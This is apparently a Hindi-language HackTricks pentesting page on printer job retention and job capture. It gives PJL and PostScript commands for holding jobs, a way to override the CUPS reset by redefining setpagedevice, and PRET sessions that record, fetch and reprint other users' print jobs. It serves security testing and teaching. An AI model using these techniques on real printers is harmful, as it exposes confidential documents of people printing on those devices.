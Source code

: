 <details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें।

</details>


# जॉब रिटेंशन

कुछ प्रिंटर्स में संग्रहीत प्रिंट जॉब्स वेब सर्वर से सुलभ होते हैं। आमतौर पर, हालांकि, जॉब रिटेंशन को किसी विशेष प्रिंट जॉब के लिए स्पष्ट रूप से सक्रिय करना पड़ता है और यह मानक PJL कमांड्स या प्रोप्राइटरी PostScript कोड का उपयोग करके किया जा सकता है। फिर जॉब्स को मेमोरी में रखा जाता है और कंट्रोल पैनल से फिर से प्रिंट किया जा सकता है।

## PJL

वैध जॉब रिटेंशन को नीचे दिखाए गए अनुसार PJL HOLD वेरिएबल सेट करके वर्तमान दस्तावेज़ के लिए सक्षम किया जा सकता है:
```
@PJL SET HOLD=ON
[actual data to be printed follows]
```
कार्यों को रोकना मेमोरी में रखा जाता है और प्रिंटर के नियंत्रण पैनल से फिर से प्रिंट किया जा सकता है। यह सुविधा विभिन्न प्रिंटरों द्वारा समर्थित है, हालांकि ऐसा प्रतीत होता है कि केवल कुछ Epson उपकरणों में `@PJL DEFAULT HOLD=ON` का उपयोग करके स्थायी कार्य संरक्षण सेट किया जा सकता है।

**इस हमले के लिए परीक्षण कैसे करें?**

pjl मोड में [**PRET** ](https://github.com/RUB-NDS/PRET) से `hold` कमांड का उपयोग करें और यह जांचें कि स्थायी कार्य संरक्षण सेट किया जा सकता है या नहीं:
```
./pret.py -q printer pjl
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> hold
Setting job retention, reconnecting to see if still enabled
Retention for future print jobs: OFF
```
## PostScript

PostScript में समान कार्यक्षमता होती है जो मॉडल- और वेंडर-विशिष्ट होती है। HP LaserJet 4k श्रृंखला और विभिन्न Kyocera प्रिंटरों के लिए, जॉब रिटेंशन को सक्षम किया जा सकता है एक PostScript दस्तावेज़ के आरंभ में निम्नलिखित आदेशों को जोड़कर:
```
<< /Collate true /CollateDetails
<< /Hold 1 /Type 8 >> >> setpagedevice
```
```markdown
यद्यपि सैद्धांतिक रूप से [startjob ](./#postscript-ps) ऑपरेटर का उपयोग करके PostScript जॉब रिटेंशन को स्थायी रूप से सक्षम करना संभव है, यह सेटिंग CUPS द्वारा प्रत्येक प्रिंट जॉब की शुरुआत में `<< /Collate false >> setpagedevice` का उपयोग करके स्पष्ट रूप से रीसेट की जाती है। हालांकि, इस सुरक्षा तंत्र का मुकाबला करने के लिए, हमलावर `setpagedevice` ऑपरेटर को स्थायी रूप से पुनः परिभाषित कर सकता है ताकि इसका कोई प्रभाव ही न हो।

**इस हमले के लिए परीक्षण कैसे करें?**

`hold` कमांड का उपयोग करें [**PRET** ](https://github.com/RUB-NDS/PRET) के ps मोड में:
```
```
./pret.py -q printer ps
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> hold
Job retention enabled.
```
# जॉब कैप्चर

जैसा कि ऊपर चर्चा की गई है, प्रिंटिंग डायलॉग में जॉब रिटेंशन को सक्रिय करना संभव है लेकिन असामान्य है। हालांकि, PostScript के साथ, वर्तमान प्रिंट जॉब पर पूरी पहुंच होती है और [startjob](./#postscript-ps) ऑपरेटर के साथ, सर्वर लूप से बाहर निकलना और भविष्य के जॉब्स तक पहुंचना भी संभव है। ऐसी कार्यक्षमता के पास सभी दस्तावेज़ों को कैप्चर करने की क्षमता होती है यदि PostScript को प्रिंटर ड्राइवर के रूप में इस्तेमाल किया जाता है।

## PostScript

मनमाने PostScript ऑपरेटर्स में हुक करने की क्षमता के साथ, विदेशी प्रिंट जॉब्स को मैनिपुलेट और एक्सेस करना संभव है। **प्रिंटर को भेजे गए वास्तविक डेटास्ट्रीम को पार्स करने के लिए**, `currentfile` ऑपरेटर का उपयोग करके PostScript भाषा की एक बहुत अच्छी विशेषता का उपयोग किया जा सकता है: अपने स्वयं के प्रोग्राम कोड को डेटा के रूप में पढ़ना। इस तरह, PostScript इंटरप्रेटर द्वारा प्रोसेस किए जाने वाले पूरे डेटास्ट्रीम को पढ़कर और प्रिंटर डिवाइस पर एक फाइल में संग्रहीत किया जा सकता है। यदि प्रिंटर फाइल सिस्टम एक्सेस प्रदान नहीं करता है, तो **कैप्चर किए गए दस्तावेज़ों को मेमोरी में संग्रहीत किया जा सकता है**, उदाहरण के लिए स्थायी PostScript डिक्शनरीज़ के भीतर। \
एक व्यावहारिक समस्या यह तय करने की है **किस ऑपरेटर को हुक किया जाना चाहिए** क्योंकि जब तक यह ऑपरेटर PostScript इंटरप्रेटर द्वारा प्रोसेस नहीं किया जाता, तब तक डेटास्ट्रीम तक पहुंच नहीं मिलती है। चूंकि एक हमलावर शुरुआत से ही प्रिंट जॉब्स को कैप्चर करना चाहता है, इसलिए **पुनर्परिभाषित ऑपरेटर पहला ऑपरेटर होना चाहिए** जो PostScript दस्तावेज़ में शामिल हो। सौभाग्य से CUPS के साथ प्रिंट किए गए सभी दस्तावेज़ `currentfile /ASCII85Decode filter /LZWDecode filter cvx exec` से शुरू होने वाली एक निश्चित संरचना में दबाए जाते हैं। इस तरह की निश्चित संरचना की धारणा पर आधारित, हमलावर शुरुआत से ही दस्तावेज़ों को कैप्चर कर सकता है और बाद में फाइल को निष्पादित (यानी प्रिंट) कर सकता है। प्रिंटिंग सिस्टम्स **CUPS के अलावा** इस हमले को संभव होना चाहिए, लेकिन **ऑपरेटर्स को अनुकूलित करना होगा**। ध्यान दें कि PostScript हेडर जिसमें आमतौर पर मीडिया साइज, यूजर और जॉब नाम शामिल होते हैं, इस विधि का उपयोग करके कैप्चर नहीं किए जा सकते क्योंकि हम पहले वास्तविक दस्तावेज़ की शुरुआत में हुक करते हैं। हर प्रिंट जॉब की शुरुआत में हुक करने के लिए एक और सामान्य रणनीति `BeginPage` सिस्टम पैरामीटर सेट करना है, यदि प्रिंटर द्वारा समर्थित हो (ज्यादातर प्रिंटर करते हैं)। यह कमजोरी संभवतः दशकों से प्रिंटिंग डिवाइसेज में मौजूद है क्योंकि केवल PostScript मानक द्वारा परिभाषित भाषा संरचनाओं का दुरुपयोग किया जाता है।

ps मोड में [**PRET**](https://github.com/RUB-NDS/PRET) से `capture` कमांड का उपयोग करें:
```
./pret.py -q printer ps
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.

printer:/> capture
Print job operations:  capture <operation>
capture start   - Record future print jobs.
capture stop    - End capturing print jobs.
capture list    - Show captured print jobs.
capture fetch   - Save captured print jobs.
capture print   - Reprint saved print jobs.
printer:/> capture start
Future print jobs will be captured in memory!
printer:/> exit
```
अब, मनमाने दस्तावेज़ प्रिंट करें (सुनिश्चित करें कि PRET डिस्कनेक्ट हो ताकि प्रिंटिंग चैनल ब्लॉक न हो). उसके बाद, आप सूचीबद्ध कर सकते हैं, प्राप्त कर सकते हैं या पकड़े गए दस्तावेज़ों को फिर से प्रिंट कर सकते हैं:
```
./pret.py -q printer ps
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> capture list
Free virtual memory: 16.6M | Limit to capture:  5.0M
date          size  user           jobname                 creator
───────────────────────────────────────────────────────────────────────────────
Jan 25 18:38  3.1M  -              -                       -
Jan 25 18:40  170K  -              -                       -
printer:/> capture fetch
Receiving capture/printer/690782792
3239748 bytes received.
Receiving capture/printer/690646210
174037 bytes received.
printer:/> capture print
printing...
printing...
2 jobs reprinted
printer:/> capture stop
Stopping job capture, deleting recorded jobs
```
<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें।

</details>
